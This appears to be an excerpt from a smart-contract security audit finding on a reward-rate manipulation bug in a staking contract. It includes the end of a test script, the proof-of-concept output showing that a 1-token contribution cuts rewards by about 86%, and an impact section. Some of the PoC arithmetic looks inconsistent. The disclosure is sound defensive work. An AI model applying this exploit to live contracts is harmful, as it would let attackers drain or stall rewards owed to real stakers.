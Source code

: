 ```solidity
        const damageRatio = Number(rewardReduction) / Number(BigInt(attackAmount))
        console.log(`Damage ratio: ${damageRatio.toFixed(2)}x (every 1 token spent by attacker reduces rewards by ${damageRatio.toFixed(2)} tokens)`)
        
        expect(damageRatio).to.be.gt(10) // Attack causes at least 10x more damage than it costs
    })
})
```
--- VULNERABILITY POC: REWARD RATE MANIPULATION ---
Initial setup: Admin adding 604800000 tokens as rewards for 1 week
Initial reward rate: 1000 tokens/second
Time advanced: 6 days (85% through distribution period)
Rewards distributed so far: 518400000 tokens
Rewards remaining: 86400000 tokens

--- ATTACK EXECUTION ---
Attacker contributing small amount: 1 tokens
Reward rate AFTER attack: 142 tokens/second
Reward rate REDUCED by 85.80%!

--- IMPACT ON DISTRIBUTION TIMELINE ---
Original period finish timestamp: 1740995834
New period finish timestamp: 1741514237
Distribution period EXTENDED by 518403 seconds (6.00 days)

--- IMPACT ON USER REWARDS ---
Original rewards user would earn in 1 hour: 3600000 tokens
Reduced rewards user will earn in 1 hour: 511200 tokens
User earnings REDUCED by 85.80% per hour!

--- ATTACK COST VS DAMAGE ANALYSIS ---
Cost to attacker: 1 tokens
Original rewards remaining: 86400000 tokens
New rewards remaining (due to attack): 12268800 tokens
Total reward reduction: 74131200 tokens
Damage ratio: 74131200.00x (every 1 token spent by attacker reduces rewards by 74131200.00 tokens)
## Impact

1. **Reward Manipulation**: Attackers can repeatedly reset reward rates with minimal cost (1 token per transaction).

2. **Denial of Service**: By continuously extending the reward period, legitimate rewards never fully distribute, creating a persistent denial of service.

3. **Trust Damage**: Users observing unexpectedly low rewards may lose confidence in the platform and withdraw their stake, negatively affecting protocol TVL and reputation.

## Code Snippet
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L366
